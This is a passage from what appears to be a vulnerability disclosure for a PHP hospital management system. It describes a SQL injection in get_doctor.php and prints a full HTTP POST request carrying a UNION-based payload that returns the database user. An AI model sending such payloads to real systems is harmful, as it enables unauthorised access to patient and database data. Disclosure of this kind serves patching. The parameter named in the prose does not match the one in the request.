 ![17.png](./img/17.png)


**[6]**

In \hms\get_doctor.php:

![18.png](./img/18.png)

Line 20 gets the POST variable specilizationid value directly into the database query causing SQL injection.

You can get the current database user as root through the following injection statement:
```
POST /hms/get_doctor.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 40
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/registration.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

doctor=aaa' and 1=2 union select user()#
```
As shown in the figure, the current database user obtained through SQL injection is root:
